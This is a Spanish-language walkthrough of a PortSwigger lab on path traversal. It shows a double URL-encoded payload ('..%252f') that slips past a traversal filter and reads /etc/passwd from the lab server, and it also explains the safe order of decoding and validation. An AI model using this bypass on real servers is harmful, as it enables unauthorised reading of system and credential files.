

# Write-up - PortSwigger Lab 20

Voy a hacer un laboratorio de PortSwigger. El lab 20 de Path Traversal.

URL del laboratorio:

```text
https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Laboratorio: Traversal de rutas de archivos, secuencias filtradas con decodificación URL adicional

Este laboratorio contiene una vulnerabilidad de recorrido de rutas (`path traversal`) en la visualización de imágenes de productos.

La aplicación bloquea las entradas que contienen secuencias de traversal. Después, realiza una decodificación URL del input antes de utilizarlo.

Para resolver el laboratorio, recupera el contenido del archivo:

```text
/etc/passwd
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Objetivo principal

El objetivo es recuperar el contenido de:

```text
/etc/passwd
```

Este archivo existe en sistemas Linux y contiene información de usuarios del sistema.

En estos laboratorios, conseguir leer `/etc/passwd` demuestra que podemos hacer lectura arbitraria de archivos fuera del directorio previsto por la aplicación.

Aunque en mensajes anteriores veníamos trabajando muchos labs de SQLi, este laboratorio no es SQLi. Pertenece a la categoría de:

```text
File Path Traversal
```

o:

```text
Directory Traversal
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Contexto del laboratorio

La aplicación tiene un endpoint que sirve imágenes de productos.

Normalmente, una imagen se carga con una URL parecida a:

```text
/image?filename=17.jpg
```

La aplicación espera recibir un nombre de archivo normal, por ejemplo:

```text
17.jpg
```

y después busca esa imagen en un directorio interno del servidor.

El problema es que el usuario controla el parámetro:

```text
filename
```

Si ese parámetro no se valida correctamente, podemos intentar que la aplicación lea otro archivo del sistema.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Concepto clave: Path Traversal

Un path traversal consiste en manipular una ruta de archivo para salir del directorio permitido.

El payload clásico es:

```text
../../../../../etc/passwd
```

La secuencia:

```text
../
```

significa:

```text
sube un directorio
```

Por tanto, si repetimos varias veces `../`, podemos subir hasta la raíz del sistema y luego bajar hacia:

```text
/etc/passwd
```

Ejemplo conceptual:

```text
/var/www/images/../../../../../etc/passwd
```

El sistema operativo normaliza esa ruta y termina resolviéndola como:

```text
/etc/passwd
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Qué cambia en este laboratorio

En este laboratorio, la aplicación bloquea entradas que contienen secuencias de traversal.

Es decir, si enviamos directamente:

```text
../
```

o:

```text
../../../../../etc/passwd
```

la aplicación lo detecta y lo bloquea.

Pero el enunciado dice algo muy importante:

```text
Después, realiza una decodificación URL del input antes de utilizarlo.
```

Ese detalle es el punto débil.

La aplicación filtra primero y decodifica después.

Eso está mal.

El orden seguro debería ser:

1. Decodificar completamente.
2. Normalizar.
3. Validar.
4. Usar.

Pero esta aplicación hace algo parecido a:

1. Recibir input.
2. Filtrar secuencias peligrosas.
3. Decodificar otra vez.
4. Usar el resultado.

Eso permite esconder el traversal usando doble codificación URL.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Qué es URL encoding

En URL encoding, algunos caracteres especiales se representan con `%` seguido de dos caracteres hexadecimales.

Ejemplos importantes:

```text
/  = %2f
.  = %2e
%  = %25
```

La barra `/` es especialmente importante porque forma parte de la secuencia de traversal:

```text
../
```

Si codificamos la barra:

```text
..%2f
```

eso representa:

```text
../
```

Pero en este laboratorio hay un filtro que puede detectar esas secuencias.

Por eso usamos doble codificación.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Qué es doble codificación URL

La doble codificación consiste en codificar un valor ya codificado.

Sabemos que:

```text
/ = %2f
```

Y también sabemos que:

```text
% = %25
```

Entonces, si queremos enviar `%2f` de forma codificada, codificamos el `%` como `%25`.

Resultado:

```text
%2f
```

se convierte en:

```text
%252f
```

Por tanto:

```text
..%252f
```

tras una primera decodificación se convierte en:

```text
..%2f
```

y tras una segunda decodificación se convierte en:

```text
../
```

Ese es exactamente el truco de este laboratorio.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Bypass mediante Doble Decodificación URL

Este laboratorio explota un error de diseño lógico:

```text
el servidor limpia la entrada antes de terminar de decodificarla
```

El servidor sigue este flujo:

1. Recibe el input del usuario.
2. Aplica un filtro de seguridad.
3. Después realiza una decodificación URL adicional.
4. Usa el resultado para abrir el archivo.

El error está en el orden.

El filtro se ejecuta antes de que el payload se haya convertido en su forma peligrosa real.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Esquema del fallo

Payload enviado:

```text
..%252f
```

Primera decodificación:

```text
..%2f
```

Filtro de seguridad:

```text
¿contiene ../?
```

Respuesta del filtro:

```text
No
```

Segunda decodificación:

```text
../
```

Resultado final:

```text
path traversal ejecutado
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Tabla de transformación del payload

| Estado | Representación | ¿Pasa el filtro contra `../`? |
|---|---|---|
| Original | `..%252f` | Sí, porque no contiene `../` literal |
| Tras 1ª decodificación | `..%2f` | Sí, porque sigue sin ser exactamente `../` |
| Tras 2ª decodificación | `../` | Ya es traversal |

La clave es que el filtro actúa antes de la segunda decodificación.

Cuando finalmente aparece `../`, el filtro ya no vuelve a ejecutarse.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# El secreto está en el símbolo `%`

En la web, los caracteres especiales se escriben con un `%` seguido de dos valores hexadecimales.

La barra:

```text
/
```

se codifica como:

```text
%2f
```

El propio símbolo porcentaje:

```text
%
```

se codifica como:

```text
%25
```

Por tanto, si escribimos:

```text
%252f
```

en realidad estamos escribiendo:

```text
%25 + 2f
```

Es decir:

```text
el código del símbolo % seguido de 2f
```

Cuando el servidor lo decodifica una vez:

```text
%25 -> %
```

y por tanto:

```text
%252f -> %2f
```

Luego, si la aplicación lo decodifica una segunda vez:

```text
%2f -> /
```

Por eso:

```text
..%252f
```

termina convirtiéndose en:

```text
../
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# La “ceguera” del filtro

Imagina que el servidor tiene dos partes:

- El servidor web, que hace una primera decodificación.
- La aplicación, que aplica un filtro y después vuelve a decodificar.

Tú envías:

```text
..%252f
```

## Paso 1: El servidor web recibe la petición

El servidor web decodifica una capa.

Ve:

```text
%25
```

y lo convierte en:

```text
%
```

Entonces:

```text
..%252f
```

pasa a ser:

```text
..%2f
```

## Paso 2: Llega el filtro de seguridad

El filtro mira:

```text
..%2f
```

El filtro busca algo como:

```text
../
```

Pero no lo encuentra.

Para el filtro, esto no es una barra real. Es texto que contiene `%2f`.

Entonces deja pasar el input.

## Paso 3: La aplicación vuelve a decodificar

Aquí ocurre el fallo.

La aplicación realiza otra decodificación URL.

Ve:

```text
%2f
```

y lo convierte en:

```text
/
```

Entonces:

```text
..%2f
```

se convierte en:

```text
../
```

## Paso 4: La aplicación usa el resultado

Ahora la aplicación ya tiene:

```text
../
```

Pero el filtro ya pasó.

Por tanto, la aplicación usa el traversal y termina leyendo el archivo fuera del directorio permitido.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Esquema visual del ataque

| Capa | Lo que el servidor ve | ¿Detecta el ataque? |
|---|---|---|
| Tu navegador | `..%252f` | No, está doblemente codificado |
| Servidor web | `..%2f` | No, la barra todavía está codificada |
| Filtro de seguridad | `..%2f` | No, busca `../` literal |
| Lógica interna | `../` | Aquí ya se ejecuta el salto |

En un mundo ideal, las cosas se deben decodificar una sola vez y validar después.

El hecho de que se decodifiquen dos veces es precisamente el fallo de seguridad que estamos explotando.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Por qué existe esa segunda decodificación

Normalmente, el servidor web, como Apache, Nginx o IIS, recibe la petición y hace una primera decodificación automática para que la aplicación entienda los parámetros.

El problema aparece cuando el programador de la aplicación vuelve a llamar manualmente a una función de decodificación.

Ejemplos conceptuales:

```python
urllib.parse.unquote(filename)
```

```php
urldecode($filename)
```

```java
URLDecoder.decode(filename)
```

Esto puede ocurrir por varias razones:

## 1. Error de principiante

El programador piensa:

```text
Por si acaso el servidor no lo ha decodificado bien, voy a decodificarlo otra vez.
```

## 2. Capas intermedias

A veces hay frameworks, proxies, balanceadores o middleware que decodifican en momentos distintos.

El desarrollador puede no saber exactamente en qué estado llega el dato.

## 3. Normalización mal ordenada

El programador puede pensar que está limpiando el input, pero después aplica una transformación que vuelve peligroso el dato.

Ese es el error del laboratorio.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# El agujero entre el filtro y la aplicación

Lo peligroso no es solo que haya dos decodificaciones.

Lo peligroso es dónde está puesto el filtro.

Flujo vulnerable:

1. Llega tu dato:

```text
..%252f
```

2. Decodificación 1:

```text
..%2f
```

3. Filtro:

```text
if contiene "../" bloquear
```

4. Como el dato es:

```text
..%2f
```

el filtro no bloquea.

5. Decodificación 2:

```text
../
```

6. Uso del dato:

```text
abrir archivo
```

Resultado:

```text
path traversal
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Por qué las entradas normales no fallan

Esto también es importante.

Si enviamos una imagen normal:

```text
17.jpg
```

el flujo sería:

1. Decodificación 1:

```text
17.jpg
```

2. Filtro:

```text
pasa
```

3. Decodificación 2:

```text
17.jpg
```

4. Resultado:

```text
funciona normal
```

Si enviamos un espacio codificado:

```text
mi%20foto.jpg
```

el flujo sería:

1. Decodificación 1:

```text
mi foto.jpg
```

2. Filtro:

```text
pasa
```

3. Decodificación 2:

```text
mi foto.jpg
```

4. Resultado:

```text
funciona normal
```

El sistema solo se vuelve vulnerable cuando usamos caracteres que cambian su significado después de la segunda decodificación.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Vamos a llevar a cabo esto de forma práctica

Le damos a empezar laboratorio y se nos abre la siguiente página web:

```text
https://0ae90011042006b482a0b06f003a00fa.web-security-academy.net/
```

Una vez dentro, abrimos BurpSuitePro y en el navegador activamos FoxyProxy para que en el HTTP History vayan apareciendo las distintas requests mientras navegamos por la página.

Como ya nos dice el laboratorio, contiene una vulnerabilidad de recorrido de rutas (`path traversal`) en la visualización de imágenes de productos.

Así clickeamos en un producto.

Después, hacemos click derecho en la imagen y seleccionamos:

```text
Open Image In New Tab
```

Esto nos lleva a la siguiente URL:

```text
https://0ae90011042006b482a0b06f003a00fa.web-security-academy.net/image?filename=17.jpg
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Petición capturada

Capturamos esa petición:

```http
GET /image?filename=17.jpg HTTP/1.1
Host: 0ae90011042006b482a0b06f003a00fa.web-security-academy.net
Cookie: session=WszTPgTxZEqGIg9lISot9i06mAvvyplU
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Análisis de la petición

El endpoint vulnerable es:

```text
/image
```

El parámetro vulnerable es:

```text
filename
```

La petición legítima es:

```http
GET /image?filename=17.jpg HTTP/1.1
```

Esto hace que el servidor devuelva la imagen:

```text
17.jpg
```

Nuestro objetivo es modificar ese parámetro para que en vez de leer una imagen, lea:

```text
/etc/passwd
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Payload utilizado

Probamos con:

```http
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/1.1
```

Este payload equivale, tras las decodificaciones necesarias, a:

```text
../../../etc/passwd
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Desglose del payload

El payload completo es:

```text
..%252f..%252f..%252fetc/passwd
```

Está formado por tres bloques:

```text
..%252f
..%252f
..%252f
```

Cada bloque termina convirtiéndose en:

```text
../
```

Por tanto:

```text
..%252f..%252f..%252fetc/passwd
```

tras doble decodificación se convierte en:

```text
../../../etc/passwd
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Transformación paso a paso

## Payload original

```text
..%252f..%252f..%252fetc/passwd
```

## Tras primera decodificación

```text
..%2f..%2f..%2fetc/passwd
```

## El filtro revisa

Busca:

```text
../
```

Pero lo que ve es:

```text
..%2f
```

No ve una barra literal `/`.

Por tanto, deja pasar la petición.

## Tras segunda decodificación

```text
../../../etc/passwd
```

## Resultado final

La función de lectura de archivos recibe:

```text
../../../etc/passwd
```

y termina accediendo a:

```text
/etc/passwd
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Respuesta obtenida

Nos devuelve efectivamente el archivo:

```http
HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316
```

Y el cuerpo contiene:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Observación sobre Content-Type

Aunque la respuesta dice:

```http
Content-Type: image/jpeg
```

el contenido no es una imagen.

Es texto plano del archivo:

```text
/etc/passwd
```

Esto ocurre porque el endpoint `/image` está diseñado para servir imágenes y probablemente fija siempre el `Content-Type` como `image/jpeg`.

Pero el cuerpo de la respuesta demuestra que el archivo leído es `/etc/passwd`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Confirmación del laboratorio resuelto

De hecho, si vemos en la web, nos dice laboratorio solucionado.



**Referencia a la imagen 1:** Banner de PortSwigger indicando que el laboratorio está resuelto. Esto confirma que el contenido de `/etc/passwd` se ha recuperado correctamente usando doble URL encoding.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Por qué este payload funciona y otros no

## Payload directo

```text
../../../etc/passwd
```

Puede ser bloqueado porque contiene:

```text
../
```

## Payload con una sola codificación

```text
..%2f..%2f..%2fetc/passwd
```

Puede ser bloqueado si el servidor o el filtro decodifica una vez antes de validar.

## Payload con doble codificación

```text
..%252f..%252f..%252fetc/passwd
```

Funciona porque:

1. La primera decodificación lo convierte en `..%2f`.
2. El filtro no detecta `../`.
3. La segunda decodificación lo convierte en `../`.
4. La aplicación usa el resultado peligroso.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Pseudocódigo vulnerable

La aplicación podría estar haciendo algo parecido a esto:

```python
filename = request.args["filename"]

# El servidor ya hizo una primera decodificación automática.
# Ahora filename puede llegar como ..%2f..%2f..%2fetc/passwd

if "../" in filename:
    block_request()

# Error: decodificación adicional después del filtro
filename = urllib.parse.unquote(filename)

open("/var/www/images/" + filename)
```

El problema está en este orden:

```text
filtrar -> decodificar -> usar
```

El orden correcto sería:

```text
decodificar completamente -> normalizar -> validar -> usar
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Defensa correcta

Una defensa correcta debería:

1. Decodificar completamente el input antes de validar.
2. Normalizar la ruta.
3. Resolver la ruta canónica.
4. Comprobar que la ruta final está dentro del directorio permitido.
5. Bloquear rutas absolutas.
6. Bloquear secuencias traversal tras decodificación.
7. Usar una whitelist de nombres de archivo válidos.
8. No permitir que el usuario controle rutas completas.

Ejemplo conceptual:

```python
base_dir = "/var/www/images"
filename = fully_decode(user_input)
requested_path = os.path.realpath(os.path.join(base_dir, filename))

if not requested_path.startswith(base_dir):
    raise Exception("Path traversal detected")
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Resumen técnico completo

La secuencia completa del laboratorio ha sido:

1. Abrimos el laboratorio.
2. Navegamos por la tienda.
3. Abrimos una imagen en nueva pestaña.
4. Identificamos el endpoint:

```http
/image?filename=17.jpg
```

5. Capturamos la petición en BurpSuite.
6. Identificamos el parámetro vulnerable:

```text
filename
```

7. Usamos doble URL encoding para ocultar `/`.
8. Enviamos:

```text
..%252f..%252f..%252fetc/passwd
```

9. El servidor lo decodifica una vez:

```text
..%2f..%2f..%2fetc/passwd
```

10. El filtro no detecta `../`.
11. La aplicación lo decodifica otra vez:

```text
../../../etc/passwd
```

12. La aplicación lee `/etc/passwd`.
13. Recuperamos el contenido del archivo.
14. El laboratorio se marca como resuelto.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Payloads utilizados

## Petición legítima

```http
GET /image?filename=17.jpg HTTP/1.1
```

## Payload correcto

```http
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/1.1
```

## Forma resultante tras doble decodificación

```text
../../../etc/passwd
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Resultado obtenido

Se recuperó el contenido de:

```text
/etc/passwd
```

Entre los usuarios visibles aparecen:

```text
root
daemon
www-data
peter
carlos
user
elmer
academy
mysql
postgres
mongodb
```

Esto confirma lectura arbitraria de archivos mediante path traversal.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Conclusión

Este laboratorio demuestra una vulnerabilidad causada por un orden incorrecto de operaciones.

La aplicación bloquea entradas con traversal, pero después realiza una decodificación URL adicional.

Al enviar la barra `/` doblemente codificada como:

```text
%252f
```

conseguimos que el filtro no vea el traversal.

Después, la segunda decodificación convierte el payload en:

```text
../
```

y la aplicación termina leyendo:

```text
/etc/passwd
```

FRASE CLAVE:

```text
Si el filtro valida antes de la última decodificación, puedes esconder el traversal en una capa extra de encoding.
```

Payload final:

```text
..%252f..%252f..%252fetc/passwd
```

**Laboratorio resuelto.**

